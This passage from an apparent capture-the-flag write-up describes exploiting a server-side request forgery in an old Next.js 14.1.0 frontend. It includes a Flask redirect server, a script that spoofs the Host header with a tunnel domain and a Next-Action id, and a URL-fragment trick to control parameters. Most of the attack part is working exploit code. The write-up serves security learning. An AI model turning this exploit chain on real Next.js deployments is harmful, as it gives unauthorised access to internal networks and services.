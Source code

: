 ```python
    print("\nNo working port found")
    return None

if __name__ == "__main__":
    port_scan()
```

I could also control URL params, by adding a fragment to remove the existing params:

`http://192.168.200.120:808/?foo=bar# -> http://192.168.200.120:808/?foo=bar#?date=...&message=Congratulation! you found button!`

I got stuck for a while here, trying to confirm it was actually blind. It would've been a pain to chain an SSRF on the webserver without source code. Eventually I found this [Assetnote post on a Next.js GET SSRF n-day](https://www.assetnote.io/resources/research/digging-for-ssrf-in-Next.js-apps) , and realised the frontend was an ancient Next.js version (`v14.1.0` right before the vuln was patched). I threw together a webhook to test.

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://192.168.200.120:808')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

Then implemented `Host` spoofing from the post. This took way longer than it should've, I really need to build better [[CTF Tooling|CTF Tooling]]...

```python
import requests

headers = {
    "Host": "scene-settings-her-licence.trycloudflare.com",  # Using the spoofed host as requested
    "Next-Action": "6e6feac6ad1fb92892925b4e3766928a754aec71",
    "Next-Router-State-Tree": "%5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0"
}

response = requests.post("http://3.38.141.72:3000/", data='[]', headers=headers)
print(response.text)
```
